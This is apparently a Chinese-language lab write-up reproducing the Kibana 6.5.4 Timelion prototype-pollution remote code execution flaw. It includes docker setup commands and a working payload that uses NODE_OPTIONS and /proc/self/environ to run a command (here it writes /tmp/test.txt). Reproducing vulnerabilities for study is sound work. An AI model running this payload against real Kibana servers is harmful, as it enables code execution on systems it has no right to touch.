 ![title](https://leanote.com/api/file/getImage?fileId=5eb8ee95ab6441053101a961)

# 环境搭建：

`注意：`环境不能搭建在 Windows 平台，不然以后会报错，因为 Windows 环境缺少 `/proc/self/environ` 这个组件。

 - node-v8.14.0 （版本过高不行）
 - Kali Linux elasticsearch-6.5.4-linux-x86_64 
 - kibana-6.5.4-linux-x86_64

`注意：` elasticsearch 和 kibana 的版本必须是对应的。

docker + 脚本搭建漏洞环境：

```
sysctl -w vm.max_map_count=262144
docker pull elasticsearch:6.5.4
docker run -d --name es -p 9200:9200 -p 5601:5601 -p 9300:9300 elasticsearch:6.5.4
docker exec -it es /bin/bash
# 在此 docker 中搭建启动 kibana
yum -y update
curl -sL https://rpm.nodesource.com/setup_8.x | bash - && yum install nodejs -y && wget https://artifacts.elastic.co/downloads/kibana/kibana-6.5.4-linux-x86_64.tar.gz && tar -zvxf kibana-6.5.4-linux-x86_64.tar.gz && mv kibana-6.5.4-linux-x86_64 kibana 
echo 'server.host: "0.0.0.0"' > /usr/share/elasticsearch/kibana/config/kibana.yml
/usr/share/elasticsearch/kibana/bin/kibana
```



或者：



先启动 elasticsearch，elasticsearch 的默认端口为 9200（注意 elasticsearch 只能在普通用户身份下启动）： 

 ![title](https://leanote.com/api/file/getImage?fileId=5da96459ab64416e47003094)

然后启动 kibana，elasticsearch 的默认端口为 5601：

 ![title](https://leanote.com/api/file/getImage?fileId=5da96465ab64416e47003095)

# 漏洞复现：

点击Timelion，在下面的框内输入执行写入文件命令的 POC，点击运行按钮：

 ![title](https://leanote.com/api/file/getImage?fileId=5da9646eab64416c4c00318e)
 
 
 

## 写入文件 POC 内容：

``` shell
.es().props(label.__proto__.env.AAAA='require("child_process").exec("touch /tmp/test.txt");process.exit()//').props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```
`注：`此 POC 尝试向 /tmp 文件夹写入 test.txt 文件。
